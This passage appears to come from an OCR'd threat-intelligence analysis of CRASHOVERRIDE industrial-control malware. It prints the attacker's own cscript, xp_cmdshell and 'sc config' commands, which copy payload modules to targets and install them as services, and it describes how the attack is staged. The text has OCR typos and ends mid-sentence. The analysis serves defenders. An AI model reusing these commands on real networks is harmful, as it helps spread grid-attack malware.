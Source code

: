 ```
cscript C:\Backinfo\ufn.vbs <TargetIP> "C:\Backinfo\ImapiService.exe"
"C:\Delta\svchost.exe"
cscript C:\Backinfo\ufn.vbs <TarqetIP> "C:\Backinfo\101.dll"
"C:\Delta\101.dll"
cscript C:\Backinfo\ufn.vbs <TargetIP> "C:\Backinfo\139.ini"
"C:\Delta\101.ini" 
cscript C:\Backinfo\ufn.vbs <TargetIP> "C:\Backinfo\haslo.dat"
"C:\Delta\haslo.dat" 
cscript C:\Backinfo\sqlc.vbs "<TargetIP>" "-c" "dir C:\Delta\"
cscript C:\Backinfo\ufn.vbs <TargetIP> "C:\Backinfo\ImapiService.exe"
"C:\Delta\svchost.exe" 
cscript C:\Backinfo\ufn.vbs <TargetIP> "C:\Backinfo\104.dll"
"C:\Delta\104.dll"  
cscript C:\Backinfo\ufn.vbs <TargetIP> "C:\Backinfo\140.ini"
"C:\Delta\104.ini" 
cscript C:\Backinfo\ufn.vbs <TargetIP> "C:\Backinfo\haslo.dat"
"C:\Delta\haslo.dat" 
cscript C:\Backinfo\sqlc.vbs "<TargetIP>" "-c" "dir C:\Delta\"
```
Review of the individual modules will follow below. At a high level, CRASHOVERRIDE itself consists of at least three pieces (and in most cases, four): a launcher executable; an ICS protocol-specific payload module in DLL form; a wiper payload module, also in DLL form; and a configuration file for most of the effects payloads.

Of note, the above scripts do not include copying of the CRASHOVERRIDE launcher module. Artifacts relating to this event were not available but given past observed activity likely options for moving this module to target devices would be the NET USE command or similar activity. The most likely reason for separating these actions is target specificity: while the CRASHOVERRIDE launcher module is common across all attack types, specific payload modules are required for different target devices. By copying the "core" component first along with other operations, ELECTRUM could conduct appropriate surveillance to determine what ICS targets link to victim hosts, and thus select the appropriate ICS effects payload module for deplovment.

Once copied over, ELECTRUM creates and starts CRASHOVERRIDE as a system service in all observed cases except in the standalone OPC module. ELECTRUM uses the "remote.vbs" script, described above, to call "sc confiq" and related commands to start services on remote systems. For example:

```
EXEC xp cmdshell 'cscript C:\Delta\remote.vbs /s:<TarqetIP>
/u:<Host/Domain>\<User> /p:<Password> /t:-c sc config imapiservice binPath=
"C:\Intel\imapi.exe C:\Intel\ imapi.dll i.ini" start= auto';
```
Separate commands are issued to start the service, which will also start on system boot. The "binPath" setting indicates the calling convention for CRASHOVERRIDE:
